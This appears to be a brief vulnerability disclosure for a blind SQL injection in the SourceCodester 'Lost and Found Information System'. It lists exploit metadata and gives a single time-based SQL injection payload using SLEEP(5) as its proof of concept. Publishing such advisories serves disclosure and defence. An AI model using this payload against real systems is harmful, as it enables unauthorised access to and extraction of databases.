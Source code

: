 # Lost and Found Information System

**Exploit Title: Lost and Found Information System Blind SQL Injection**

**Date**: 4/03/2024

**Exploit Author:** y3thu

**Vendor Homepage:** [https://www.sourcecodester.com/users/tips23](https://www.sourcecodester.com/users/tips23)

**Software Link:** [https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html](https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html)

**Attack Vector:** WEB, Network

**Testeted on:** Kali Linux

**POC**

- **payload:**
    
    ```jsx
    ' AND (SELECT 5506 FROM (SELECT(SLEEP(5)))Lwfa) AND 'SvjZ'='SvjZ
    ```
    
    ![Untitled](Lost%20and%20Found%20Information%20System%204793204531a64b86b5225a7bc1326670/Untitled.png)
